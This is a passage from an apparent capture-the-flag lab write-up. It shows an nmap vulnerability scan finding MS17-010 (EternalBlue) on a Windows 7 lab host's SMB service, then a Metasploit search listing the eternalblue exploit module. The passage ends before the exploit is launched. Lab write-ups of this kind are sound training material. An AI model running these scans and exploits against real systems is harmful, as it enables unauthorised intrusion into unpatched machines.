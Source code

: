 # Shell as `SYSTEM`

### MS17-010

Given that the OS is `Windows 7` and SMB is open, maybe `MS17-010` will be working.
Let's try to find vulnerability of this SMB version.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ nmap -p 445 -script vuln 10.10.10.40 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-25 03:19 EST
Pre-scan script results:
| broadcast-avahi-dos: 
|   Discovered hosts:
|     224.0.0.251
|   After NULL UDP avahi packet DoS (CVE-2011-1002).
|_  Hosts are all up (not vulnerable).
Nmap scan report for 10.10.10.40
Host is up (0.13s latency).

PORT    STATE SERVICE
445/tcp open  microsoft-ds

Host script results:
|_smb-vuln-ms10-061: NT_STATUS_OBJECT_NAME_NOT_FOUND
|_smb-vuln-ms10-054: false
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
|_      https://technet.microsoft.com/en-us/library/security/ms17-010.aspx

Nmap done: 1 IP address (1 host up) scanned in 50.72 seconds
```

It says the target is vulnerable to `MS17-010`!
Let's use `msfconsole` for the exploit.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ msfconsole -q
msf6 > search ms17-010

Matching Modules
================

   #   Name                                           Disclosure Date  Rank     Check  Description
   -   ----                                           ---------------  ----     -----  -----------
   0   exploit/windows/smb/ms17_010_eternalblue       2017-03-14       average  Yes    MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption
   1     \_ target: Automatic Target                  .                .        .      .
   2     \_ target: Windows 7                         .                .        .      .
   3     \_ target: Windows Embedded Standard 7       .                .        .      .
   4     \_ target: Windows Server 2008 R2            .                .        .      .
```